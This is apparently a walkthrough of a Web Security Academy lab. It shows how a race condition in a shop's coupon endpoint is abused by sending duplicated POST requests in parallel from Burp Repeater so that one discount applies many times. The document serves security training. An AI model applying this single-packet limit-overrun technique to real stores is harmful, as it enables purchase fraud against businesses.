




# Limit overrun race conditions

```
❓

This lab's purchasing flow contains a race condition that enables you to purchase items for an unintended price.

To solve the lab, successfully purchase a **Lightweight L33t Leather Jacket**.

You can log in to your account with the following credentials: `wiener:peter`.
```

```
⚠️

Solving this lab requires Burp Suite 2023.9 or higher.
```

To start things off, log with the credentials provided in the lab, observe that we have \$50.00 in store credit available. Next up, head over to the product titled *“Lightweight "l33t" Leather Jacket”,* add it to your cart and continue to cart to add the promo code.



When we apply the coupon we can see a POST request being sent to the endpoint `/cart/coupon` 

```txt
POST /cart/coupon HTTP/2
Host: 0af7006504c4e51080e2263000dd0093.web-security-academy.net
Cookie: session=aYaTVuQtoy6u4ZdEMZa7VH1vTMfPmQFD
Content-Length: 52
Cache-Control: max-age=0
Sec-Ch-Ua: "Not?A_Brand";v="99", "Chromium";v="130"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Origin: https://0af7006504c4e51080e2263000dd0093.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0af7006504c4e51080e2263000dd0093.web-security-academy.net/cart
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

csrf=vd25gc1C8ifcgKIcSuZEGyj0VszM8H3U&coupon=PROMO20
```

Let’s send this over to Repeater, and duplicate this request by repeatedly pressing `CTRL+R` , now let’s group all the repeater tabs together by right clicking on one of the tabs and clicking `Add tab to group`. Now scroll to the bottom of the list and shift click the last tab, this will check all of the tabs, lastly click `Create`.



At this point we will want to remove the already applied coupon and send our group of coupon request simultaneously by clicking the drop down button next to send and click `Send group in parallel (single-packet attack)`. Now the total should be lower than your available store credit (Depending requests you are sending, and this may multiple attempts).




